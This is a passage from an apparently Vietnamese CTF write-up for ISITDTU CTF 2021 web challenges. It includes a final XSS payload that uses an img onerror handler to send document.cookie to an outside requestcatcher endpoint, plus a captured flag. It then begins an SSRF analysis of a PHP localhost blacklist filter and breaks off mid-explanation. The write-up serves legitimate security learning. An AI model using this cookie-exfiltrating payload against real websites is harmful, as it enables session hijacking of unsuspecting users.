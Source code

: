 ![image](https://user-images.githubusercontent.com/61876488/143775278-0fd6ae7b-b568-4aed-aacd-4040af89a807.png)

![image](https://user-images.githubusercontent.com/61876488/143775285-b2183718-ad8e-4ba4-b72d-0bf8a88794db.png)

My final payload:

```html
https://simplewaf.duckdns.org/6ef051ac3d7b644cb6b3c22fef5677a1/?xss=%3Cimg%20src/%20%0Donerror%0D%20=%22fetch(%27https://antoine.requestcatcher.com/%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27%20,body:document.cookie})%22%3E
```

Flag: `ISITDTU{64858f4560416acff930bf673b5046911947a26e}`

## ![image](https://user-images.githubusercontent.com/61876488/147461736-3c4051fc-e4e0-44ac-be5b-3bff75f4ed09.png) lastpoint

> Challenge này thì nhờ 1 chút "rùa" và chăm đọc cheat sheet mà mình giải nhanh hơn bình thường :D

![](https://i.imgur.com/SA9isKs.png)


[+] [Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/ISITDTU%20CTF/2021/web/last%20point/source)

### 1. Initial reconnaissance:

Đầu tiên chúng ta cần tạo account để login vào:

![](https://i.imgur.com/6e4zTGP.png)

Xem qua source của trang [login](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/login.php) và [register](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/register.php) cũng bình thường không có gì, chỉ còn mỗi 2 trang [index](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/index.php) và [home](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/home.php) để chúng ta xem xét.

### 2. Analyze and find the vulnerabilities:

#### a) index.php:

![](https://i.imgur.com/9iZ7VYu.png)

Mới nhìn vào có vẻ đây là tính năng nhập một URL bất kì rồi trả về nội dung của URL đó. Hướng đi của challenge này có vẻ là là khai thác [SSRF](https://portswigger.net/web-security/ssrf) rồi. Nhưng trước hết chúng ta sẽ gặp vật cản đầu tiên là hàm `filter` dưới đây:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```
Tác giả đã lộ rõ ý đồ blacklist 2 ip là `127.0.0.1` và `0.0.0.0`, vì 2 ip này đếu trỏ đến `localhost`, điểm mấu chốt để khai thác SSRF. Thậm chí ngay cả khi bạn nhập vào url `https://localhost/home.php` rồi submit thì nó cũng cho kết quả tương tự:
